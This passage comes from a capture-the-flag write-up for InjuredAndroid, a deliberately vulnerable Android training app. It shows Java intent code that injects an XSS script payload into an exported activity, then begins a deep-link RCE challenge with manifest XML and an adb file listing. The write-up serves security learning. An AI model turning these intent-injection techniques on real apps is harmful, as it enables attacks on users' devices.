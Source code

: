**NOTE**
You want exploit an **XSS**? ;)
Then, I comment that **If the URL isn't HTTPS, then, load as HTML**.
Just change **the URL of our malicious app for**
```java
Intent twelveIntent = new Intent();  
twelveIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity");  
twelveIntent.putExtra("totally_secure", "<html><body><script>alert('xss');</script></body></html>");
```

![[injuredAndroid10.png]]

### Flag 13 - RCE

We have the **RCEActivity** activity.
Checking the **AndroidManifest.xml** file
```XML
<activity  
        android:theme="@style/AppTheme.NoActionBar"  
        android:label="@string/title_activity_rce"  
        android:name="b3nac.injuredandroid.RCEActivity">  
        <intent-filter android:label="filter_view_flag11">  
            <action android:name="android.intent.action.VIEW"/>  
            <category android:name="android.intent.category.DEFAULT"/>  
            <category android:name="android.intent.category.BROWSABLE"/>  
            <data  
                android:scheme="flag13"  
                android:host="rce"/>  
        </intent-filter>  
</activity>
```

Pay attention in the **intent-filter** and **data**.
We have the **flag13** as scheme (**flag13://**)
And **rce** as host.

The **URL** for now is **flag13://rce**

Then, looking the source code, we need get a **binary** file.
According our **android device**, in my case I use a rooted genymotion device, which architecture is **x86_64**.

I use **narnia.x86_64** file.
Then, giving **chmod +** permission to these files with **adb**.
We can see that the files is already with **execute** perms.
```bash
vbox86p:/data/data/b3nac.injuredandroid/files # ls -la
total 6020
drwxrwx--x  2 u0_a80 u0_a80    4096 2024-07-29 23:56 .
drwx------ 10 u0_a80 u0_a80    4096 2024-07-29 18:38 ..
-rwx--x--x  1 u0_a80 u0_a80 2008649 2024-08-01 00:48 meŉu
-rwx--x--x  1 u0_a80 u0_a80 2097453 2024-08-01 00:48 narnia.arm64
-rwx--x--x  1 u0_a80 u0_a80 2012745 2024-08-01 00:48 narnia.x86_64
-rwx--x--x  1 u0_a80 u0_a80       8 2024-08-01 00:48 test
```
